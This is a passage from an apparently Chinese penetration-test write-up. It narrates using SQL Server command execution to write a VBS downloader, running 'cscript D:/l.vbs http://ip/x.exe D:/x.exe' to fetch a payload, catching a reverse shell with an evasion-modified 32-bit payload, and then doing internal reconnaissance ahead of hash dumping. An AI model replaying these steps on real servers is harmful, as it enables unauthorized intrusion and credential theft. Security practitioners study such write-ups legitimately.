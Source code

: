 注意以上命令是不能全部用&amp;&amp;连接起来一起输入的，因为参数限制最大长度为 128，还有在sqlserver中双引号内输入双引号是需要输入两个双引号的，并不是用\\转义，如图

![图片](https://shs3.b.qianxin.com/butian_public/ff673eb136e3d4057e6e22bd860668fae.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/ff0b9b3ff677db3877d2f9bc5ea1b016c.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/f03815754b756238825bc0f0b4ca75d3f.jpg)

在执行 cscript D:/l.vbs <http://ip/x.exe> D:/x.exe 命令后，看到服务器确有下载记录

![图片](https://shs3.b.qianxin.com/butian_public/fb029cbe2eebd482f87fa10ac047eee33.jpg)

说明vbs脚本写入成功而且确实下载了文件，但是执行 D:/x.exe 后没有收到shell怀疑是杀毒软件给拦了，但我确实做过免杀啊...

后来检查发现，该服务器是32位系统，而我用的是64位的payload，自然不会成功，后面换成32位的，成功弹回shell

![图片](https://shs3.b.qianxin.com/butian_public/ff72398540abe324b9cb6ecf0f4769f3a.jpg)

信息收集
----

> ipconfig

查了一下ip，发现处在内网

![图片](https://shs3.b.qianxin.com/butian_public/f3713e414514c49962880a6ee5c991855.jpg)

查看域用户

> net group /domain

有中文乱码，本来想用chcp 65001切换成UTF-8代码页，但只要切换成UTF-8 shell就断，不知具体原因。不过utf-8不行的话chcp 437切换到IBM437英语好了

看到这里是没有域的，有点小失望

![图片](https://shs3.b.qianxin.com/butian_public/f3dbd838c79b8aa5c041375cd7e0c9456.jpg)

查看系统基本信息

> systeminfo

![图片](https://shs3.b.qianxin.com/butian_public/fae9db4b93ee24735e36f458fef4dd581.jpg)

查看端口，没开3389

> netstat -ano

![图片](https://shs3.b.qianxin.com/butian_public/f42a6f396405a7e676638928e104f20ef.jpg)

查看相邻主机IP

> arp -a

![图片](https://shs3.b.qianxin.com/butian_public/ffee30cd1e73a70304b220ef1478522fe.jpg)

抓用户hash
